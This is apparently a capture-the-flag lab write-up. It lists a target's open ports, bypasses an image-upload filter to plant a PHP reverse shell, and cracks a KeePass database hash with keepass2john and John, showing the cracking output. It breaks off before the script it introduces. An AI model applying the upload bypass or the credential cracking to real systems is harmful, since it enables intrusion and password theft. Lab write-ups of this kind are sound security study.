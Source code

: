 OPEN PORTS:

22 OpenSSH 8.2p1;
80 Apache httpd 2.4.41;
139 Samba smbd 4.6.2;
445 Samba smbd 4.6.2;

ENUMERATION:

When we access the webserver we are provided with a login screen.
Feroxbuster finds a cloud directory. 
It's an image upload website that of course accepts only image files. 
But it's possible to bypass this restriction by adding a space after the extension of the file that you want to upload. 
If you want to upload a php-reverse-shell.php just put php-reverse-shell.php#.png and the file will upload successfully.

PRIVILEGE SCALATION:

In the opt directory there is a dataset.kdbx file
It's a Keepass password database
We can extract the hash:

keepass2john dataset.kdbx > forjohn.txt

And crack it with John:

john --wordlist=/usr/share/wordlists/rockyou.txt forjohn.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (dataset)     
1g 0:00:00:06 DONE (2023-04-07 22:41) 0.1485g/s 133.1p/s 133.1c/s 133.1C/s chichi..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

Now we can open the database and we will find the password for the user sysadmin

We now have access to the scripts directory

This is the script.php file:

